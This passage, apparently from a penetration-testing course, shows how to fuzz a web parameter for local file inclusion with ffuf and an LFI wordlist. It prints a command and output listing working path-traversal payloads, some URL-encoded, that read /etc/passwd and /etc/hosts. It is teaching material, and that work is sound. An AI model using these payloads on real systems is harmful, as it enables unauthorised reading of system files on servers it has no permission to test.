 However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web apps where we need to test for various vulnerabilities.

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files. 

We can use this wordlist to fuzz the "`?language=`" parameter we have been testing throughout the module, as follows:
```bash
$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability.
### Fuzzing Server Files
In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them. Such files include: 
* `Server webroot path`, 
* `Server configurations file`, and 
* `server logs`.
#### Server Webroot
We may need to know the full server Webroot path to complete our exploitation in some cases. 
